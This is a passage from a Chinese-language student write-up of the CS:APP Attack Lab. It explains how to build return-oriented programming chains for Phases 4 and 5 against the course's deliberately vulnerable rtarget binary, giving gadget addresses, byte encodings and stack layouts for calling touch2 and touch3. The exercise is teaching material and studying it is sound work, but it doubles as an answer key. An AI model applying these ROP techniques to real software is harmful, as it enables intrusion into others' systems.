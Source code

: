 接下来我们就可以凑 ROP 程序了，下面是栈顶，上面是栈底。

```assembly
0x00401860 (最后是 touch2 的入口地址，进行调用)
-------
0x00401a2b (把 %rax 的值放入到 %rdi 中，作为参数) -> gadget 2
-------
0x45374fee (我的 cookie，会被 gadget 1 存入到 %rax 中)
-------
0x00401a24 (旧的返回地址会被这里覆盖) -> gadget 1
-------
....
buf (缓冲区，这里随便写点啥都可以，反正都不能执行)
-------
```

- 注意目前基本上都是 64 位的机器架构，应该在每个语句后面补 0才能通过

##### 5.2 Level 3

To solve Phase 5, you can use gadgets in the region of the code in rtarget demarcated by functions start_farm and end_farm. In addition to the gadgets used in Phase 4, this expanded farm includes the encodings of different movl instructions, as shown in Figure 3C. The byte sequences in this part of the farm also contain 2-byte instructions that serve as functional nops, i.e., they do not change any register or memory values. These include instructions, shown in Figure 3D, such as andb %al,%al, that operate on the low-order bytes of some of the registers but do not change their values.

这个阶段需要把 cookie 转换成 ascii 码通过缓冲区溢出放到栈的某个位置，然后把指向这个字符串的指针放到 `%rdi` 中，最后调用 `touch3` 即可。给出的提示是使用 `movl`（对前四位进行操作）和诸如 `andb %al,%al` 的指令（只对低2位的部分操作），标准答案中最少需要使用 8 个 gadget。

具体描述整个思路：

1. 拿到 rsp 存着的地址
2. (然后把这个地址) + (cookie 在 stack 偏移量) pop 到某个寄存器中
3. 然后把这个寄存器的值放到 rdi 中
4. 然后调用 touch3
5. cookie 要放到 stack 最后面
6. 字符串最后加上 `\0` 也就是 `00000000` 来标志结束

从第二步到第三步，因为可用的指令的限制，需要借用不同的寄存器来进行转移跳转，最后完成对 `%rdi` 的赋值，具体的步骤如下：

```assembly
栈顶
mov  %rsp, %rax 48 89 e0 c3    0x401b11
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
pop  %rax       58 c3          0x401a24
constant 0x48
movl %eax, %ecx 89 c1 20 c9 c3 0x401a98 (20 c9 没有影响)
movl %ecx, %edx 89 ca 28 c0 c3 0x401ac8 (38 c0 没有影响)
movl %edx, %esi 89 d6 38 c0 c3 0x401a68 (38 c0 没有影响)
lea  (%rdi, %rsi, 1), %rax     0x401a48
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
touch3 的地址
cookie 的字符串
栈底
```

PS: 其实本实验配套的writeup文件已经对整个过程有了很详尽的指导，每句话看清楚学明白，做起来就不会很困难.
